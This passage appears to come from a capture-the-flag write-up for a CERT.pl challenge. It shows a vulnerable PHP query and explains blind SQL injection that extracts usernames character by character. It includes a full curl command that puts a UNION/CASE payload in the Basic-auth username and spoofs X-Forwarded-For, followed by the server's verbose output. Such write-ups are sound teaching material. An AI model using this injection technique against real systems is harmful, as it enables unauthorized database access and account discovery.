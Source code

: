 ```php
$result = $db->query("select message from instructions where login = '{$data[0]['login']}'");
if (!$result) { die($db->errorInfo()[2]); }
$data = $result->fetchAll();
```

"But we already get $data from this query, did't we?@ you might ask.

Yes, you're correct, but as we pass fake username and password, ```message``` column contains NULL. It will contain legitimate data only for username, which exists in database.

So let's use SQL Injection we've found and let's try to extract some username. Problem is that we do not get any readable feedback from backend, so any ```UNION``` based injections won't work as we expect. Good news is we can still use ```UNION```, however we need to extract data character by character, using comparision between valid and invalid response from the server.

First, let's see how correct request looks like. I've used ```admin``` here as example, but actually, I guessed existing username and I get response which means ```admin``` user was found in database:


```
$ curl --verbose --user-agent "hackerone.com/bl4de" --header "X-Forwarded-For: 175.45.176.100" --user "name' or '1'='2' UNION SELECT 'user', CASE WHEN (SELECT login FROM users LIMIT 1)='admin' THEN '5f4dcc3b5aa765d61d8327deb882cf99' ELSE '' END--":password  http://ecsm2017.cert.pl:6044/index.php/instructions

*   Trying 136.243.148.95...
* TCP_NODELAY set
* Connected to ecsm2017.cert.pl (136.243.148.95) port 6044 (#0)
* Server auth using Basic with user 'name' or '1'='2' UNION SELECT 'user', CASE WHEN (SELECT login FROM users LIMIT 1)='admin' THEN '5f4dcc3b5aa765d61d8327deb882cf99' ELSE '' END--'
> GET /index.php/instructions HTTP/1.1
> Host: ecsm2017.cert.pl:6044
> Authorization: Basic bmFtZScgb3IgJzEnPScyJyBVTklPTiBTRUxFQ1QgJ3VzZXInLCBDQVNFIFdIRU4gKFNFTEVDVCBsb2dpbiBGUk9NIHVzZXJzIExJTUlUIDEpPSdhZG1pbicgVEhFTiAnNWY0ZGNjM2I1YWE3NjVkNjFkODMyN2RlYjg4MmNmOTknIEVMU0UgJycgRU5ELS06cGFzc3dvcmQ=
> User-Agent: hackerone.com/bl4de
> Accept: */*
> X-Forwarded-For: 175.45.176.100
>
< HTTP/1.1 200 OK
< Date: Thu, 16 Nov 2017 23:57:40 GMT
< Server: Apache
< Vary: Accept-Encoding
< Content-Length: 296
< Content-Type: text/html; charset=UTF-8
<
<html>
<head>
<style>
body { background-color: #AA0000; color: white; font-size: 300%;}
</style>
</head>
<body>

<nav>
    <a href="/index.php/home">집</a>
    |
    <a href="/index.php/instructions">명령</a>
</nav>

<hr />

<h2>안녕하십니까</h2><h3>메시지 없음</h3>
</body>
* Connection #0 to host ecsm2017.cert.pl left intact
```
